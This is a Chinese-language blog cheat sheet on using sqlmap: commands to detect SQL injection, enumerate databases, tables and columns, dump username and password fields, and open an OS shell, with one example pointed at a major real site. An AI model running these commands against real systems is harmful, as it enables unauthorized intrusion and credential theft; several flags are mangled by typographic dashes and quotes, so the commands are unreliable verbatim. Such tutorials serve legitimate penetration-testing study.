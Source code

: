 ```yaml
---
title: sqlmap使用
tags: web安全
abbrlink: 5359
date: 2018-06-08 09:45:39
---
```


# sqlmap使用手册

sqlmap一共5个级别，级别越高，检测越全面

1. 检测

   默认使用level1，检测全部数据库类型

   >  sqlmap -u “http://www.vuln.cn/post.php?id=1”

2. 只检测mysql

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3

3. 检测cookie(（只有level达到2才会检测cookie）)

   >  sqlmap -u “http://www.baidu.com/shownews.asp” –cookie “id=11” –level 2

4. post注入

   request.txt: 首先需要抓包，然后将数据包保存到requests.txt

   > sqlmap -r “c:\tools\request.txt” -p “username” –dbms mysql    
   >
   > 指定username参数

   或者:

   > python sqlmap.py -u "http://www.target.com/vuln.php" --data="id=1" -f --dbs

5. 查询有哪些数据库

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –-dbms mysql -–level 3 –-dbs

6. 查询有哪些表(以test数据库为例)

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –-dbms mysql –-level 3 -D test -–tables

7. 查询字段(以test数据库下的admin表为例)

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –-dbms mysql –-level 3 -D test -T admin –-columns

8. 查询数据(以test数据库下的admin表为例)

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  -–dbms mysql –-level 3 -D test -T admin -C “username,password” –-dump

9. 使用shell命令

   > sqlmap -r “c:\tools\request.txt” -p id –-dbms mysql –-os-shell

10. 使用tamper

    >  sqlmap.py -u http://chinalover.sinaapp.com/SQL-GBK/index.php?id=3 --tamper unmagicquotes --dbs --hex

11. 保存进度

    > sqlmap -u “http://url/news?id=1“ –-dbs-o “sqlmap.log” 保存进度
    >
    > sqlmap -u “http://url/news?id=1“ -–dbs-o “sqlmap.log” –resume 恢复已保存进度

    